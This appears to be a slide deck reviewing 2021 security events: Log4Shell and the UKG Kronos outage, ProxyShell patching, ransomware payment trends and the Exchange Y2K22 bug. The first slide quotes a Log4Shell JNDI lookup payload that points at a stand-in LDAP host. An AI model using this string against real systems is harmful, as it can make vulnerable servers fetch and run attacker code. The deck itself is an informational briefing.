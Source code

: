 ```${jndi:ldap://example.com/file}```
UKG Kronos Private Cloud affected.  Some paychecks affected in time for X-mas including at US counties.

* UKG Workforce Central
* UKG TeleStaff
* Healthcare Extensions
* Banking Scheduling Solutions

---

### 2021-08-25: Exchange ProxyShell (F/up)
<img src="https://sanibel-captiva.org/wp-content/uploads/2019/09/Best-Shelling-Beach-on-Sanibel.jpeg"
	style="height:400px; border-radius:15px;" />

--

https://techcommunity.microsoft.com/t5/exchange-team-blog/proxyshell-vulnerabilities-and-your-exchange-server/ba-p/2684705

ProxyShell vulns big in August 2021, but did everyone patch for CVE-2021-34473, CVE-2021-34523, and CVE-2021-31207? Karver did a Shodan safari, some heads-up notices, dodged some flak (thanks, Joel), may have gotten some results -- think hospitals, a library, an ISP, oh, and a response from the baddies.

---

### 2021-00-00: Ransomware
<img src="https://www.hipaajournal.com/wp-content/uploads/2021/07/average-ransom-payment-coveware-q2-2021.png"
	style="height:400px; border-radius:15px;" />

--

https://www.hipaajournal.com/the-average-ransomware-payment-fell-by-38-in-q2-2021/

Waiting for more publications of 2021 data.  There were some measurements that showed a trend toward lower average payments, but there were also indications of more dollars extorted.  Leaking and ransoming is the norm now for heavy targets.  CIS states still mostly ignored due to RaaS ToS, and some fear of big phish and US .gov entities now.

--

<img src="https://pbs.twimg.com/media/FHyT8EvWYAkxsaC?format=jpg&name=medium"
	style="height:400px; border-radius:15px;" />

https://twitter.com/pancak3lullz/status/1476217440442925057

"AvosLocker RaaS operators trying to avoid heat after hitting a US government entity..."

---

### 2022-01-01: Exchange On-Prem Y2K-22 Bug
<img src="https://corporate.bestbuy.com/wp-content/uploads/2019/12/Remember.-Y2k.png"
	style="height:400px; border-radius:15px;" />

--

https://www.bleepingcomputer.com/news/microsoft/microsoft-exchange-year-2022-bug-in-fip-fs-breaks-email-delivery/

```Error: 0x8004005. Error Details: Unspecified Error" or "Error Code: 0x80004005. Error Description: Can't convert "2201010001" to long."```

```